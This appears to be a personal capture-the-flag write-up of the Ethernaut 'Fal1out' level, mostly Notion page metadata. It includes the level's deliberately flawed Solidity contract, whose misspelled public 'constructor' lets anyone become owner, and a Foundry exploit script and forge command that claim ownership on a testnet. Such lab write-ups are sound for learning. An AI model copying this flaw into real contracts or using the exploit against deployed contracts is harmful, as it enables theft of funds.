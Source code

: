 ```yaml
---
title: "Fal1out"
date: "2024-02-12T09:15:00.000Z"
lastmod: "2024-02-12T09:30:00.000Z"
draft: false
type: "docs"
Difficulty: "⭐"
Date: "2024-01-16"
next: "fallback-3b8b2299aa214a02b189968fcb7e63fb"
prev: "telephone-b59b329cb2184d118a98135159a4b7e3"
State: "Terminé"
NOTION_METADATA:
  object: "page"
  id: "adc1e968-66bc-443c-8f73-279d9d54ddcc"
  created_time: "2024-02-12T09:15:00.000Z"
  last_edited_time: "2024-02-12T09:30:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel2.svg"
  parent:
    type: "database_id"
    database_id: "8eb542ce-cd0a-4616-90c5-674614439ec0"
  archived: false
  properties:
    type:
      id: "AcKd"
      type: "select"
      select:
        id: "YEpZ"
        name: "docs"
        color: "default"
    Difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    Date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    next:
      id: "%5Eru%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "fallback-3b8b2299aa214a02b189968fcb7e63fb"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "fallback-3b8b2299aa214a02b189968fcb7e63fb"
          href: null
    prev:
      id: "a%5Dip"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "telephone-b59b329cb2184d118a98135159a4b7e3"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "telephone-b59b329cb2184d118a98135159a4b7e3"
          href: null
    State:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    URL:
      id: "juZs"
      type: "url"
      url: null
    Name:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Fal1out"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fal1out"
          href: null
  url: "https://www.notion.so/Fal1out-adc1e96866bc443c8f73279d9d54ddcc"
  public_url: null
UPDATE_TIME: "2024-02-12T09:31:04.695Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```


We have to claim the owner ship of the program, we can see that their is nothing that seems to prevent us from calling Fal1out() so let’s try that:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface Fallout {
  function allocatorBalance(address allocator) external view returns (uint);

  function Fal1out() external payable;

  function allocate() external payable;

  function sendAllocation(address payable allocator) external;

  function collectAllocations() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_02");
        console.logAddress(addr);
        vm.startBroadcast(deployerPrivateKey);

        Fallout instance = Fallout(addr);
        instance.Fal1out{value: 1}(); //value 1 isnot needed but just in case


        vm.stopBroadcast();
    }
}
```


```solidity
source .env
forge script ./script/02.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast --verify -vvvv
```

